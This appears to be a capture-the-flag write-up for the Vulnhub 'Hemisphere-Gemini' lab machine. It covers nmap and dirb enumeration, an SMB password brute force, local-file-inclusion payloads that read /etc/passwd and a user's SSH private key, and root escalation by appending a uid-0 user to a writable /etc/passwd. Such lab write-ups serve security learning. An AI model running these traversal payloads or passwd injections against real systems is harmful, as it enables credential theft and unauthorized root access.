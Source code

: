 ```yaml
---
title: "Vulnhub: Hemisphere-Gemini"
layout: archive
date:   2021-01-09
tags: Vulnhub
tags_label: true
---
```

This is a beginner-level box from Vulnhub. It has custom exploitation, and a privilege escalation vector I hadn't seen before.

### Scanning:

Find the machine on the network:
```
crazyeights@es-base:~$ nmap -PS 192.168.56.1-255
    
Nmap scan report for 192.168.56.136
Host is up (0.00028s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
``` 

Get more details about running services, only important detail found is hostname `gemini`:
```
crazyeights@es-base:~$ nmap -A -p- 192.168.56.136
[SNIP]
```

### Web:

Index Page:

![](/assets/images/24/1.png)

The message Translated:
```
> Website in maintenance, we are working to make it available as soon as possible ... Sorry for the inconvenience.
```

Perform enumeration to search for additional files and directories:
```
crazyeights@es-base:~$ dirb http://192.168.56.136   
```    

Only interesting file found is robots.txt which contains 3 entries. None of these actually exist though so this is a dead end.
```
crazyeights@es-base:~$ curl http://192.168.56.136/robots.txt
/secret
/admin
/lol
``` 

### SMB:

Checking out smb, hoping to find additonal files or info.
Listing available shares:
```
crazyeights@es-base:~$ smbclient -L //gemini -I 192.168.56.136 -N
    
    	Sharename       Type      Comment
    	---------       ----      -------
    	print$          Disk      Printer Drivers
    	IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
    SMB1 disabled -- no workgroup available
crazyeights@es-base:~$ 
```    
There is none, so this is also a dead end.
    
Using enum4linux to search for users, we find one Local User william: 
```
S-1-22-1-1000 Unix User\william (Local User)
```

Using the module smb_login we are able to retrieve the password for the user william, but this password does not get us any additional access/info so this is also a dead end:
```
msf5 auxiliary(scanner/smb/smb_login) > set SMBUser william
SMBUser => william
msf5 auxiliary(scanner/smb/smb_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE lists/rockyou-40.txt
PASS_FILE => lists/rockyou-40.txt
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS 192.168.56.136
RHOSTS => 192.168.56.136
msf5 auxiliary(scanner/smb/smb_login) > set SMBDomain gemini
SMBDomain => gemini
msf5 auxiliary(scanner/smb/smb_login) > exploit
    
[*] 192.168.56.136:445    - 192.168.56.136:445 - Starting SMB login bruteforce
[+] 192.168.56.136:445    - 192.168.56.136:445 - Success: 'gemini\william:123456'
[!] 192.168.56.136:445    - No active DB -- Credential data will not be saved!
[*] 192.168.56.136:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/smb/smb_login) > 
```

### Back to Web:

With further enumeration we find an additional folder we missed:
```
crazyeights@es-base:~$ dirb http://192.168.56.136 lists/dirb/directory-list-2.3-small.txt
                                
==> DIRECTORY: http://192.168.56.136/Portal/ 
```    

In the portal folder, there is a webapp
![](/assets/images/24/2.png)

Pages in the webapp are retrieved as shown below, meaning the index.php may be vulnerable to LFI (Local File Inclusion):
```
http://192.168.56.136/Portal/index.php?view=about-us.html
```    

Testing it out by trying to retrieve passwd:
```
crazyeights@es-base:~$ curl http://192.168.56.136/Portal/index.php?view=../../../../../etc/passwd
<html>
    [SNIP]
    <p>root:x:0:0:root:/root:/bin/bash
    [SNIP]
    messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
    sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
    william:x:1000:1000:william,,,:/home/william:/bin/bash
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    ftp:x:106:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
</p>    </body>
</html>
crazyeights@es-base:~$ 
```
There is one local user william. We check william for .ssh folder:
```
crazyeights@es-base:~$ curl http://192.168.56.136/Portal/index.php?view=../../../../../home/william/.ssh/authorized_keys
```    

We can retrieve william's private key which will allow us to login as william via SSH
```
crazyeights@es-base:~$ curl http://192.168.56.136/Portal/index.php?view=../../../../../home/william/.ssh/id_rsa
```    

![](/assets/images/24/3.png)

### User:

After changing the permissions of the file containing the private key we can login as william:
```
crazyeights@es-base:~$ chmod 0600 id_rsa_gem 
crazyeights@es-base:~$ ssh -i id_rsa_gem william@192.168.56.136
Linux gemini 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64
```    

Getting user flag:
```
william@gemini:~$ ls
Desktop  Documents  Downloads  Music  Public  user.txt  Videos
william@gemini:~$ cat user.txt
[SNIP]
user_flag==> srLbBhLRK7nBdZAesnxyeWaMV
``` 

### Root:

Finding programs william can run as another user:
```
william@gemini:~$ find / -perm /4000 2>/dev/null
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/mount
/usr/bin/su
/usr/bin/passwd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/etc/passwd
```

The entry /etc/passwd is interesting because it means that william can write to it
We can use it to create a new user that has uid root.
```
william@gemini:~$ ls -lia /etc/passwd
138596 -rwsrwsrwx 1 root root 1456 nov  6 15:09 /etc/passwd
william@gemini:~$ 
``` 

Create a password for the new user (password is root):
```
crazyeights@es-base:~$ openssl passwd -1
Password: 
Verifying - Password: 
$1$vYYRevCu$6uUg5FbiK3e2vNVGiSDG61
``` 

Add the following line (used nano):
```
rooter:$1$vYYRevCu$6uUg5FbiK3e2vNVGiSDG61:0:0:rooter:/root:/bin/sh
```    

![](/assets/images/24/4.png)

Login as user rooter:
```
william@gemini:~$ su rooter
Contraseña: 
# id
uid=0(root) gid=0(root) grupos=0(root)
```  

We now have root privileges, so we can get the root flag
```
# cd /root
# ls
root.txt
# cat root.txt
[SNIP]
root_flag==> vD1JA8mze74XzkmzOA21R4sjZ
```    
FIN.